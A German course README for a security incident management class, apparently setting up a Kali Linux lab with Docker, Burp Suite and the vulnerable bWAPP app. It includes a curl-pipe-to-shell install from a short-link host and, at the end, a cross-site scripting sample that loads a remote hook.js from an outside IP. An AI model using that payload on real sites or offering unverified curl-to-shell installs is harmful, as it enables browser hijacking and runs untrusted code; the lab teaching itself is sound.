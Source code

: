 #### Security Incident Management
###### *TSBE 16b*
---

###### Setup
- VM: [Kali Linux](https://www.kali.org/downloads/)<br>
- VMTools:
  - ``apt update && apt -y full-upgrade`` <br>
  - ``apt -y install open-vm-tools-desktop fuse`` <br>
- Docker:
  - `curl http://xcv.li/getDocker.sh | sh` <br>
- Burp:
  - ``apt-get install burpsuite``
- bwapp Docker container:
 - ``docker run --name bwapp -d -p 8083:80  raesene/bwapp``

Burp starten:
>Burp starten
Burp als Proxy für den Browser
Firefox:
Preferences -> Advanced -> Network Settings -> Connection
Proxy manuel
127.0.0.1 Port 8083
"No Proxy" for Localhost entfernen!

Info:
>Wenn bWApp einen Datenbank fehler zeigt und nicht richtig startet
http://127.0.0.1:8083/install.php<br>
Nach dem Neustart von Kali ist es möglich, dass bwapp nicht mehr läuft. Diese kann mit den folgenden Befehlen neu gestartet werden: <br>
``service docker restart`` <br>
``docker restart bwapp``

bwapp: http://127.0.0.1:8083

Links: <br>
CVSS: https://first.org/cvss/calculator/3.0 <br>
OWASP: http://owasp.org <br>

``xss sample: asd<script src=///174.138.66.1/hook.js></script>``
